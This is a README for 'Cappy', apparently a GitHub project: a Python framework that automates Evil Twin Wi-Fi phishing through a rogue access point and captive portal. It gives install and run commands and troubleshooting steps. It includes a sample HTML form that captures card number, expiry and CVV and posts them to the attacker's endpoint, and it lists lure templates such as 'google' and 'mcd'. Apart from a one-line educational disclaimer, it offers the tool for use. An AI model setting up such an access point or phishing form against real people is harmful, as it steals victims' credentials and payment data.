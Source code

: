<div align="center">
  <img src="https://flockahh.b-cdn.net/B5860EAD-2DC4-4373-A00C-B0C219CB6D9A.png" alt="Cappy Logo" />
  
##   $${\color{orange}Cappy}$$ 
  
</div>
  
<div>
  
**Evil Twin** is a phishing technique categorized under network attacks, it involves the creation of a **rogue wireless access point (AP)** that masquerades as a legitimate network, such as a public Wi-Fi hotspot or a familiar network with a captive portal, to deceive users into connecting and unknowingly divulging their sensitive login credentials and other personal information transmitted over the compromised connection. 
</div>

<br />

> [!TIP]
> <strong>Cappy, a framework that automates the attack, must be used only in clear, educational purposes.<br /> Any action outside of that context is highly unrecommended, and may result in legal consequences</strong>

# Introduction

**Python** tool, that automates the process of setting up captive portal on Linux machines, with some tweaks.

> [!NOTE]
> This software was tested on: <strong>Kali Linux, KaliPi, ParrotOS</strong><br />
> In case of any trouble, create an issue and describe the error

<br />

**Cappy** operation scheme:

```
  Check Dependencies ---> Choose network interface
          |                ^         |                                                                         
          | missing?       |         └ Change mac address                      Run captive portal <--- Select Template
          |                |                   |                                       |                       |
  Install Dependencies -   |                   └ Menu Screen                           └ Capture credentials   |
                       |_ _|                          | start?                                                 |
                                                      └ Prepare adapter ---> Configure IP Adresses ---> Restart services
                                                      └ Write configs
```

# Setup

**1-A.** Installing Cappy with pip

  <sub>**In most cases, Cappy can handle the setup by itself, so give it a try**</sub>
  
  <sub>This will make 'Cappy' available from any path in the terminal</sub>
  
  ```
    $ git clone https://github.com/FLOCK4H/Cappy
    $ cd Cappy
    $ sudo pip install .
  ```

**1-B.** Running Cappy with Python
   
   <sub>We will need to install dependencies manually</sub>

```
  $ sudo apt-get update
  $ sudo apt-get install lighttpd hostapd dnsmasq
  $ cd Cappy
  $ sudo python Cappy
```

# Usage

![image](https://github.com/FLOCK4H/Cappy/assets/161654571/ce6ee823-5408-4b14-8f3c-ce33bb53737b)

```
  $ sudo Cappy
```

**Templates** are being saved to the <i> **/usr/local/share/Cappy/templates** </i>folder.

Creating a new template will result in making new directory in that path with a name of the template.

By default, there are 2 endpoints and 5 fields, that we can use in `index.html` of the template:
- /action.html -> username, password, credit, expire, cvv
- /data -> any

Example:
```
<form method='POST' action="http://10.0.0.15:80/action.html">
    <input type='text' name='credit' placeholder="CARD NUMBER"/>
    <input type='password' name='expire' placeholder="EXPIRY DATE"/>
    <input type='password' name='cvv' placeholder="CVV"/>
    <input value='Submit' type='submit'/>
</form>
```

**Device wanting to join the network will be redirected to the `index.html` of the template, where after entering credentials and submitting, will be redirected to the `action.html`, that harvests those credentials and logs to the console.**

**There are 4 default templates**:
- `google`
- `mrhacker`
- `Valentines`
- `mcd`

Help make this number bigger, and message me with your template:

`flock4h@gmail.com \ Topic: Cappy Templates [NEW_TEMPLATE_NAME]`

<div align="center">
  <img src="https://flockahh.b-cdn.net/IMG_2835.png" alt="Result" width="400"/>
</div>

## Troubleshooting

There are numerous reasons for why the Cappy may not work, as it all depends on the network adapter, operating system, and machine capabilities itself.
Carefully read the console when launching the framework, the errors can provide more information on what's going on.

Here are the general steps on how to debug your issue:

1. Ensure dependencies are installed manually

```
  $ sudo apt-get install hostapd dnsmasq lighttpd
```

2. Check paths for conflicts:

```
  $ ls /etc/hostapd
  $ find /etc/dnsmasq.conf
  $ find /usr/local/share/Cappy
```

3. Check logs of the services:

```
  $ sudo systemctl status hostapd
  $ sudo systemctl status dnsmasq

  # If dnsmasq status replied with - 10.0.0.1-150 range is busy, you need to change all 10.0.0.15 and 10.0.0.20-150 entries in the code to other IP and range.
```

> [!TIP]
> In case when troubleshooting steps did not work; please create an issue

## TODO

- [ ] Add run arguments
- [ ] Stable release
- [ ] PyPi release

## LICENSE

$${\color{orange}MIT}$$ 
THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
